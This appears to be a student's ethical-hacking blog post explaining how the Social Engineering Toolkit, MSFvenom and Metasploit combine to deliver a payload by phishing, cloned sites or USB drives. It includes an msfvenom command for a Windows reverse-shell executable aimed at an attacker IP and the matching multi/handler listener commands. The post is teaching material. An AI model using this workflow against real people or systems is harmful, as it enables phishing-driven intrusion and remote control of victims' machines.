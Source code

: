 ```yaml
---
title: Crafting the Bait and Catching the Shell - Diving into Social Engineering Toolkit and MSFvenom 
date: 2025-04-25 
author: Bunleap Sorn
description: Exploring the powerful combination of Social Engineering Toolkit (SET) and MSFvenom to create payloads and establish reverse shells in ethical hacking exercises. 
tags: ["Ethical Hacking", "Cybersecurity", "Classroom Learning", "Social Engineering", "SET", "MSFvenom", "Payloads", "Reverse Shell", "Metasploit", "Phishing", "Client-Side Attacks"]
---
```

Hello, everyone! While network scanning and direct exploitation of server-side vulnerabilities are crucial, we've also begun to explore a fascinating and often highly effective attack vector: **social engineering**. This isn't about technical weaknesses in code; it's about exploiting the most unpredictable element in any system – the human element. And to put these concepts into practice, two tools quickly became central to our learning: the **Social Engineering Toolkit (SET) and MSFvenom**.

#### Understanding Social Engineering: The Human Factor

Before diving into the tools, it's important to grasp what social engineering is. It's the art of manipulating people into performing actions or divulging confidential information. This can involve deception, persuasion, or trickery. In ethical hacking, we learn these techniques not to cause harm, but to understand how attackers exploit human trust and vigilance, and thus, how to better defend against such attacks.

#### The Social Engineering Toolkit (SET): Your Framework for Deception

The Social Engineering Toolkit (SET) is a powerful, open-source Python-driven framework designed specifically for social engineering attacks. It integrates various attack vectors into a single, user-friendly interface, making it an indispensable tool for ethical hackers.

In class, we've explored how SET can facilitate attacks like:

- **Spear-Phishing Attack Vectors:** Crafting targeted emails with malicious attachments or links.

- **Website Attack Vectors:** Cloning legitimate websites for credential harvesting or serving malicious files.

- **Infectious Media Generator:** Creating USB drives or CDs that automatically execute payloads when inserted.

- **Mass Mailer Attack:** Sending large volumes of phishing emails.

SET streamlines the process of creating the "bait" – whether it's a convincing fake login page or a seemingly innocuous file. It sets up the web server to host these malicious assets and often integrates directly with Metasploit to handle the "catch."

#### MSFvenom: The Payload Powerhouse

While SET handles the delivery mechanism, **MSFvenom** is where the actual malicious code, or **payload**, is created. MSFvenom is a command-line utility that's part of the Metasploit Framework. Its primary purpose is to generate and encode payloads.

Think of MSFvenom as a sophisticated factory for malicious code. You tell it:

- **What you want the payload to do:** (e.g., provide a reverse shell, create a user, execute a command).

- **What operating system it should target:** (e.g., windows/meterpreter/reverse_tcp, linux/x86/shell_reverse_tcp).

- **How you want it formatted:** (e.g., exe, dll, apk, php).

- **Whether you want to encode it:** (to evade antivirus detection).

The output is a standalone executable or script that, when run on the target system, performs the desired action.

#### The Workflow: Setting Up the Payload and Getting a Reverse Shell

A common scenario we've practiced involves using MSFvenom to create a payload, SET to deliver it, and Metasploit to receive a reverse shell.

**What is a Reverse Shell?**

A reverse shell is a critical concept. Instead of the attacker directly connecting to the victim (which is often blocked by firewalls), the victim initiates a connection back to the attacker. This "reversal" of connection makes it much harder to detect and block with traditional firewall rules. Once the connection is established, the attacker gets a command-line interface (a "shell") on the victim's machine.

The Typical Flow:

1. Payload Generation (MSFvenom):
    
    We use MSFvenom to create a payload. For example, a Windows reverse TCP shell:
    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker IP> LPORT=<Listening Port> -f exe > payload.exe`
    Here, `LHOST` is our Kali machine's IP (where we'll listen), and `LPORT` is the port our listener will be on.

2. Delivery (SET):
    
    SET is then used to host and deliver this payload.exe. This could be done through:

        - A cloned website that prompts the user to download an "update."

        - A malicious email attachment crafted to look legitimate.

        - An infectious USB drive.
            
            The goal is to get the target to execute this payload.exe.

3. Listener Setup (Metasploit):
    
    On our Kali machine, we set up a Metasploit listener (specifically, the exploit/multi/handler module). This module patiently waits for incoming connections from our payload.

    ```bash
    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp  (Must match the payload generated by MSFvenom)
    set LHOST <Attacker IP>                     (Must match LHOST used in MSFvenom)
    set LPORT <Listening Port>                  (Must match LPORT used in MSFvenom)
    exploit
    ```

4. The "Catch":

    When the unsuspecting victim executes `payload.exe` (e.g., by clicking on it), it initiates a connection back to our Metasploit listener. If successful, our `multi/handler` catches the connection, and we gain a Meterpreter session – a powerful shell that allows us to interact with the compromised Windows 10 machine.

#### Ethical Implications and Learning

This practical experience with SET and MSFvenom is incredibly eye-opening. It demonstrates just how effective social engineering combined with a well-crafted payload can be, even against a patched system if the human element is compromised.

The key takeaways for me are:

- **User Awareness is Key:** No amount of technical security can protect against a perfectly executed social engineering attack if users aren't trained and vigilant.

- **Layered Security:** This emphasizes the need for defense in depth – not just firewalls and antivirus, but also user education, email filtering, and application whitelisting.

- **The Power of These Tools:** These are incredibly potent tools, and understanding their capabilities reinforces the immense responsibility we carry as ethical hackers. They must only be used in authorized and controlled environments for educational and defensive purposes.

Learning to wield tools like SET and MSFvenom has provided a deeper appreciation for the complexities of cybersecurity, highlighting that sometimes, the easiest way into a system isn't through a network port, but through a human click.
